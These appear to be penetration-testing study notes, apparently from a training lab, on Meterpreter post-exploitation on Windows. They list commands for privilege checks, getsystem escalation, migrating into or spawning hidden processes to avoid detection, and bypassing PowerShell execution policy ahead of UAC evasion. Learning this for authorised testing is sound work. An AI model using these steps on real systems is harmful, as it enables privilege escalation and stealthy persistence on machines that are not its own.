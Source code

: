 in meterpreter shell - how long user has been idle. should be one of the first commands run
```
idletime
```

we want to see if the user has SeImpersonatePrivilege or SeDebugPrivilege
```
shell
whoami /priv
```

- they have impersonatePrivilage so let's elevate using getsystem (meterpreter command)
- getsystem uses named pipe impersonation
- the legitimate named pipe technique is built into the Windows OS to facilitate communications between processes. The pipe technique uses a file to exchange messages between the two processes
```
getuid
getsystem
getuid
```
- another thing to do is switch processes in case ours is closed or detected
- note you need to use getsystem to elevate before you can switch
- you can only migrate to procesesses with same or lower integrity and priv level than current process
```
ps 
migrate <processid>
getuid # note that switching processes switches to the user running that process
```
Instead of migrating to an existing process or a situation in which we won't find any suitable processes to migrate to, we can use the execute Meterpreter command. This will create a new process
```
execute -H -f notepad
migrate 5240
```

get an env
```
getenv flag
```

### post exploitation modules
- most attacks will give unprivileged shell. but if the user is member of localAdministrators group then we can try to elevate by getting past UAC
- must determine if you have medium integrity level first
- https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/integrity-levels
- to diplay process integrity level we can use NtObjectmManager (PS) or ProcessExplorer (GUI)
```
shell
powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel # returns medium
```

background sessions
```
ctrl-z on powershell
bg on meterpreter
```
 